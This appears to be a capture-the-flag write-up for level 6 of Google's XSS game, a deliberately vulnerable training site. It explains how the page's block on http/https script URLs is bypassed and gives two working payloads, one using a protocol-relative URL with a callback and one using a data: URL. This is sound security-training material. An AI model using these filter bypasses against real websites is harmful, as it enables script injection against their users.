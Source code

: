 # Level 6: Follow the 🐇

URL: [https://xss-game.appspot.com/level6](https://xss-game.appspot.com/level6)

![Xss Game Appspot Level 6 Image](img/level-6.png)

## Mission Objective

Find a way to make the application request an external file which will cause it to execute an `alert()`.

## Analysis

This lab objective is straightforward forward we have to load an external javascript file to execute an `alert()` function. The page adds a script tag with the `src` attribute pointing to the URL fragment’s value. If you take a look at the page source code you will find a `setInnerText()` function that prevents the loading of the script file if the URL starts with `http` or `https`.

## Conclusion

Even if the application blocks URLs starting with `http` or `https`. It can be bypassed by a [Protocol-relative URL](https://en.wikipedia.org/wiki/Wikipedia:Protocol-relative_URL) or with [data:URL scheme](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data).

```bash
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

```bash
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert(document.domain)
```

![Xss Game Appspot Level 6 Solved](img/level-6-solved.png)